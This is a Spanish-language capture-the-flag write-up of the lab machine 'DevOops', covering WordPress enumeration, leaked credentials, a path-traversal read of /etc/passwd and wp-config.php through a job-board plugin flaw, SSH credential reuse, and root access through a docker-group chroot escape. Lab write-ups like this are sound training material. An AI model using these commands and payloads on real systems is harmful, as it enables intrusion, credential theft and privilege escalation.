










+++
author = "Andrés Del Cerro"
title = "CyberWave: DevOops Writeup | Easy"
date = "2024-11-21"
description = ""
tags = [
    "CyberWave",
    "DevOops",
    "Writeup",
    "Cybersecurity",
    "Penetration Testing",
    "CTF",
    "Reverse Shell",
    "Privilege Escalation",
    "RCE",
    "Exploit",
    "Linux",
    "HTTP Enumeration",
    "Information Disclosure",
    "Exposed Credentials",
    "Local File Inclusion",
    "Code Analysis",
    "Abusing Credentials Reuse",
    "Abusing docker"
]

+++

# CyberWave: DevOops Writeup

Welcome to my detailed writeup of the easy difficulty machine **"DevOops"** on CyberWave. This writeup will cover the steps taken to achieve initial foothold and escalation to root.

# TCP Enumeration

```console
rustscan -a 10.10.10.4 --ulimit 5000 -g
10.10.10.4 -> [22,80]
```

```console
nmap -p22,80 -sCV 10.10.10.4 -oN allPorts
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-21 17:09 CET
Nmap scan report for 10.10.10.4
Host is up (0.027s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u4 (protocol 2.0)
| ssh-hostkey:
|   2048 1f:ac:54:bc:02:1b:dd:5b:f3:fc:40:22:53:2e:2a:4a (RSA)
|   256 d9:93:da:cf:fa:e9:a5:97:88:7f:fb:07:55:0e:4d:51 (ECDSA)
|_  256 44:bd:56:bb:3c:b1:75:e9:e2:0c:03:73:03:fb:88:51 (ED25519)
80/tcp open  http    Apache httpd
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2022-02-27 18:29  wordpress/
|_
|_http-server-header: Apache
|_http-title: Index of /
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.91 seconds
```

# UDP Enumeration

```console
sudo nmap --top-ports 1500 -sU --min-rate 5000 -n -Pn 10.10.10.4 -oN allPorts.UDP
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-21 17:09 CET
Nmap scan report for 10.10.10.4
Host is up (0.028s latency).
Not shown: 1494 open|filtered udp ports (no-response)
PORT      STATE  SERVICE
445/udp   closed microsoft-ds
8010/udp  closed unknown
17605/udp closed unknown
22292/udp closed unknown
51586/udp closed unknown
57172/udp closed unknown

Nmap done: 1 IP address (1 host up) scanned in 0.90 seconds
```

Después del escaneo inicial, podemos suponer que el vector de ataque va a ser por el servicio web expuesto en el puerto 80 ya que la versión de SSH no es vulnerable.

# HTTP Enumeration
Con `whatweb` si intentamos acceder al recurso que vemos en `/wordpress` se nos redirecciona al dominio `devoops.bsh`, vamos a añadirlo al `/etc/hosts`
```console
whatweb http://10.10.10.4/wordpress
http://10.10.10.4/wordpress [301 Moved Permanently] Apache, Country[RESERVED][ZZ], HTTPServer[Apache], IP[10.10.10.4], RedirectLocation[http://10.10.10.4/wordpress/], Title[301 Moved Permanently]
http://10.10.10.4/wordpress/ [301 Moved Permanently] Apache, Country[RESERVED][ZZ], HTTPServer[Apache], IP[10.10.10.4], RedirectLocation[http://devoops.bsh/wordpress/], UncommonHeaders[x-redirect-by]
ERROR Opening: http://devoops.bsh/wordpress/ - no address for devoops.bsh
```

Ahora si podemos lanzar un `whatweb` y nos interesa la versión de `wordpress` que es la `5.9.1` aparentemente por las etiquetas `meta`
```console
whatweb http://devoops.bsh/wordpress
http://devoops.bsh/wordpress [301 Moved Permanently] Apache, Country[RESERVED][ZZ], HTTPServer[Apache], IP[10.10.10.4], RedirectLocation[http://devoops.bsh/wordpress/], Title[301 Moved Permanently]
http://devoops.bsh/wordpress/ [200 OK] Apache, Country[RESERVED][ZZ], Email[office@example.com], HTML5, HTTPServer[Apache], IP[10.10.10.4], JQuery[3.6.0], MetaGenerator[WordPress 5.9.1], PoweredBy[Astra], Script[text/javascript], Title[Tech Job Board &#8211; DevOops | Tech Job Board], UncommonHeaders[link], WordPress[5.9.1]
```

Así se ve el sitio web.


Encontramos algunos usuarios, vamos a crearnos una lista de posibles nombres de usuario por si la necesitamos mas adelante.


```console
cat -p users.txt
jeniffersmith
j.smith
jeniffer.s
jsmith
pameladuncan
p.duncan
pamela.d
pduncan
stevetailor
s.tailor
steve.t
stailor
```

# Information Disclosure (exposed user credentials)
Enumerando por encima el wordpress, encontré que en el directorio `/wp-content/uploads` está habilitado el Directory Listing.


Y nos encontramos un archivo bastante interesante.


El archivo contiene lo siguiente.
```text
sarah
vlVL6hcA4s1k
```

Tiene pinta de que son unas credenciales.

Probando estas credenciales en el panel de inicio de sesión en `/wp-admin` conseguimos iniciar sesión.


Esta cuenta no tiene permisos de administrador, por lo cual no podemos hacer la típica intrusión de editar el tema actual y ejecutar código...

# Local File Inclusion
Desde el primer reconocimiento de la página, hemos visto que hay una funcionalidad para poder enviar tu CV y aplicar a un puesto de trabajo, esto obviamente WordPress no lo incluye por defecto por lo cual debe de ser un plugin, para buscar como es, vamos al menú administrativo del plugin y vamos a copiar y pegar la referencia del archivo.


Una búsqueda en Google nos revela cual es el plugin que se está utilizando, no necesariamente tiene que ser la versión que nos muestra Google, pero el plugin debe de ser ese.


En este menú, en el pie de página, encontramos una versión, pero al buscar por Google, vemos que la última versión es la `2.13.1` por lo cual esto es imposible.


Nos encontramos también con [este PoC](https://github.com/M4xSec/Wordpress-CVE-2020-35749/blob/main/CVE-2020-35749.py), explota un **Local File Inclusion** en la versión 2.9.3 de este plugin. Por probar no perdemos nada.

Sorprendentemente funciona, sinceramente he tenido suerte ya que no había detectado la versión del plugin y he probado por probar..
```console
python3 lfi.py http://devoops.bsh/wordpress/ /etc/passwd sarah vlVL6hcA4s1k

Y88b         /                888~~                     888          ,e,   d8
 Y88b       /  888-~88e       888___ Y88b  /  888-~88e  888  e88~-_   "  _d88__
  Y88b  e  /   888  888b ____ 888     Y88b/   888  888b 888 d888   i 888  888
   Y88bd8b/    888  8888      888      Y88b   888  8888 888 8888   | 888  888
    Y88Y8Y     888  888P      888      /Y88b  888  888P 888 Y888   ' 888  888
     Y  Y      888-_88"       888___  /  Y88b 888-_88"  888  "88_-~  888  "88_/
               888                                888
			(CVE-2020-35749)
	{ Coded By: Ven3xy  | Github: https://github.com/M4xSec/ }


[+] Trying to fetch the contents from /etc/passwd


root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
john:x:1000:1000:John Doe,,,:/home/john:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
mysql:x:106:113:MySQL Server,,,:/nonexistent:/bin/false


[+] Output Saved as: output.txt
```
De estos usuarios solo me interesa el usuario `john` ya que es el único que tiene una bash.

## Mini Code Analysis
Antes de seguir quiero explicar de forma resumida que hace el PoC que hemos explotado.

Construye una URL maliciosa:
```text
wp-admin/post.php?post=application_id&action=edit&sjb_file=<ruta_del_archivo>
```

Y parece ser que el parámetro `sjb_file` es vulnerable a LFI, luego simplemente se realiza la petición de tipo GET y se consigue el contenido del archivo especificado.

Analizando el código de `simple-job-board/includes/class-simple_job_board_resume_download_handler.php` vemos que en ningún momento se filtra el parámetro `sjb_file` y directamente se construye una ruta de archivo utilizando el valor de este parámetro.

Para hacerlo manualmente, simplemente hacemos una petición GET (desde el navegador mismamente) a esta ruta (por ejemplo)
```text
http://devoops.bsh/wordpress/wp-admin/post.php?post=application_id&action=edit&sjb_file=../../../../etc/passwd
```

Al hacerlo se nos descarga el archivo deseado.


Y simplemente podemos leerlo.
```console
cat -p /home/kali/Downloads/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
john:x:1000:1000:John Doe,,,:/home/john:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
mysql:x:106:113:MySQL Server,,,:/nonexistent:/bin/false
```

# Exfiltrating `wp-config.php`
Podemos revisar la configuración del apache (sabemos que es un servidor web apache ya que antes `whatweb` lo ha reportado) y vemos que el servidor web se aloja en la ruta por defecto.


Podemos intentar leer el `wp-config.php` en `/var/www/html/wordpress/wp-config.php` y conseguimos ver unas credenciales de acceso a la base de datos.


# Abusing Credentials Reuse -> Foothold
Podemos probar si se reutilizan credenciales con el usuario `john` que hemos detectado antes y vemos que si.
```console
sshpass -p 'Cwz+hJ672CP' ssh john@devoops.bsh
Linux devoops 4.19.0-26-amd64 #1 SMP Debian 4.19.304-1 (2024-01-09) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
john@devoops:~$ id
uid=1000(john) gid=1000(john) groups=1000(john),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),998(docker)
```

Podemos leer la flag de usuario.
```console
john@devoops:~$ cat user.txt
a8fb899a576d...
```

# Privilege Escalation
## Abusing `docker` group
Vemos que el usuario `john` pertenece al grupo `docker`
```console
john@devoops:/opt/containerd$ id
uid=1000(john) gid=1000(john) groups=1000(john),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),998(docker)
```

Existe una forma de escalar privilegios cuando un usuario pertenece a este grupo. Primero vamos a ver si tenemos imágenes en docker o tengo que descargarme una...
```console
john@devoops:/opt/containerd$ docker images
REPOSITORY   TAG       IMAGE ID       CREATED       SIZE
alpine       latest    c059bfaa849c   2 years ago   5.59MB
```

Tenemos una imagen de `alpine`, nos sirve perfectamente para escalar privilegios.

Podemos consultar [GTFOBins](https://gtfobins.github.io/gtfobins/docker/#shell) que también contempla algunas posibilidades teniendo permisos sobre el binario de `docker`

Y vemos el siguiente comando, si lo ejecutamos se ejecutará un contenedor `alpine`.
```
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

Al montar `/` en `/mnt` y usar `chroot`, el contenedor puede interactuar directamente con los archivos del sistema host y ya habríamos escalado privilegios.
```console
john@devoops:/opt/containerd$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
# ls -la /root
total 36
drwx------  4 root root 4096 Mar  5  2022 .
drwxr-xr-x 18 root root 4096 May  7 17:34 ..
-rw-------  1 root root 1649 Feb 24  2022 .bash_history
-rw-r--r--  1 root root  597 Feb 24  2022 .bashrc
drwx------  3 root root 4096 Mar  5  2022 .gnupg
drwxr-xr-x  3 root root 4096 Feb 24  2022 .local
-rw-------  1 root root  417 Feb 27  2022 .mysql_history
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-r--r-----  1 root root   33 Feb 24  2022 root.txt
```

Si queremos pivotar a `root` en la máquina anfitriona, podríamos asignar el bit de SUID al binario `/bin/bash` y lanzarnos una sesión privilegiada con `bash -p`, pero como estoy en un entorno compartido, no lo voy a hacer.

Podemos leer la flag de `root`
```console
# cat /root/root.txt
5b887382629cc...
```

¡Y ya estaría!

Happy Hacking! 🚀